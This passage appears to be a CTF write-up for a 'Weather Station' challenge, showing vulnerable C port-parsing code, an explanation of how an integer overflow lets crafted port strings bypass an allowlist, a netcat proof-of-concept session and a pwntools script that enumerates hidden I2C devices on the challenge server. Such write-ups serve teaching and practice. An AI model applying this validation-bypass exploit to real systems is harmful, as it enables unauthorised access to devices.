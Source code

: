 ```c
    v = v * 10 + digit;
  }
  return v;
}

int8_t port_to_int8(char *port) {
  if (!is_port_allowed(port)) {
    return -1;
  }

  return (int8_t)str_to_uint8(port);
}
```
If the port is validated as allowed it is then parsed into a `u8` and returned. But a port string can be crafted so that the first three chars match an allowed port, passing the validation, but when it is parsed into a `u8` it overflows and becomes a different number.

Proof of concept:
```
> nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? r 110 4
i2c status: transaction completed / ready
78 0 0 0 
-end
? r 11118 4
i2c status: transaction completed / ready
78 0 0 0 
-end
```
Two different port strings are able to access the same port, and both pass their validation function. In the datasheet it tells us that device addresses (port numbers) are 7 bit numbers, this means that we can easily enumerate over all 128 possible devices to find a peripheral that we were not meant to access.
```python
from pwn import *
io = remote("weather.2022.ctfcompetition.com", 1337)
print(io.recvline())
print(io.recvline())

def build(ps, target):
    for p in ps:
        for ch in "0123456789":
            if int(p + ch) % 256 == target:
                return p + ch
            else:
                ps.append(p + ch)
        ps.pop(0)
    return build(ps, target)

valid = []
try:
    for i in range(128, -1, -1):
        addr = build(["111"], i).encode()
        payload = b' ' + addr + b' 128'
        io.sendline(b'w ' + addr + b' 1 1')
        r = io.recvline()
        if b'ready' in r:
            valid.append(i)
        print("%d\t%s\t%s" % (i, addr, r))
finally:
    print(valid)
```